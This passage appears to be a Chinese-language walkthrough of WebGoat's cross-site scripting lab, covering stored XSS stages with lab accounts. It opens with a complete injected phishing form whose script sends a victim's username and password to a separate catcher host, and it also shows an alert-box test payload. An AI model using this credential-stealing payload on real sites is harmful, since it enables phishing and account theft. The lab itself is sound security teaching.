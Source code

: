 ```
</form><script>function hack(){ XSSImage=new Image; XSSImage.src="http://192.168.1.210:7777/WebGoat/catcher?PROPERTY=yes&user=" + document.phish.user.value + "&password=" + document.phish.pass.value + "";alert("Had this been a real attack... Your credentials were just stolen. User Name = " + document.phish.user.value + " Password = " + document.phish.pass.value);} </script><form name="phish"><br><br><HR><H3>This feature requires account login:</H2><br><br>Enter Username:<br><input type="text" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br><input type="submit" name="login" value="login" onclick="hack()"></form><br><br><HR>
```

![image]({path}/73.png)



## LAB: Cross Site Scripting
## Stage 1: Stored XSS
第一步，先使用tom账号登录（密码：tom）
![image]({path}/74.png)

![image]({path}/75.png)

![image]({path}/76.png)

输入
```
<script>alert(0)</script>
```

![image]({path}/77.png)

第二步，使用HR(密码：jerry）号登录，查看tom的信息

![image]({path}/78.png)

![image]({path}/79.png)

![image]({path}/80.png)
 

## Stage 2: Block Stored XSS using Input Validation（修复过程略）
## Stage 3: Stored XSS Revisited
验证Bruce的个人简介中包含有XSS攻击，使用David用户（密码：david）登录，查看Bruce的个人简介，出现弹窗，表明存在XSS攻击。

![image]({path}/81.png)

![image]({path}/82.png)

## Stage 4: Block Stored XSS using Output Encoding（修复过程略）
##  Stage 5: Reflected XSS
